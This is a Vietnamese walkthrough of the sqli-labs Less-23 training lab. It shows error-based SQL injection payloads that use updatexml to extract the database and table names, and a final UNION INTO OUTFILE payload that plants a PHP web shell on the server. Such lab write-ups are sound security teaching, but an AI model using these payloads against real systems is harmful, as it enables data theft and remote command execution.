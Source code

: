# Less 23

Đề bài yêu cầu truyền vào id

![](../images/sqli-labs/Less-23/01.png)

Tôi thử nhập vào một giá trị

![](../images/sqli-labs/Less-23/02.png)

Tôi tìm cách để injection. 

![](../images/sqli-labs/Less-23/03.png)

Tôi thấy có lỗi sql hiển thị ra màn hình. Như vậy ta có thể tận dụng vào đây để khai thác các thông của DB.

Ta có thể dự đoán câu query là

```
select * from table where id='$id' limit 0,1
```

Tôi comment đoạn limit trong câu query

![](../images/sqli-labs/Less-23/04.png)

Ở đây tôi có thể dự đoán rằng trong code đã xử lý để bỏ đi ký tự comment. Ban đầu ta thấy bài này giống với [Less 1](Less-1.md) nhưng đến đây ta đã thấy chỗ khác biệt. Ta không thể sử dụng các ký tự comment trong SQL. 

Ta vẫn khai thác được DB bằng cách tận dụng vào error based

Show tên DB hiện tại

```
http://192.168.84.233/sqli-labs/Less-23/?id=1 ' and updatexml( 1 ,concat( 0x7e ,(select database()), 0x7e ), 1 ) or ' 1 '=' 1
```

![](../images/sqli-labs/Less-23/05.png)

Show tên bảng

```
http://192.168.84.233/sqli-labs/Less-23/?id=1 ' and updatexml( 1 ,concat( 0x7e ,(select table_name from information_schema.tables where table_schema='security' limit 0,1), 0x7e ), 1 ) or ' 1 '=' 1
```

![](../images/sqli-labs/Less-23/06.png)

Tương tự ta có thể show tất cả thông tin khác trong DB.

Ta cũng có thể add một đoạn code php vào server

```
http://192.168.84.233/sqli-labs/Less-23/?id=1 ' union select 0,0,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/a1.php' from emails order by id or '1
```

![](../images/sqli-labs/Less-23/07.png)

![](../images/sqli-labs/Less-23/08.png)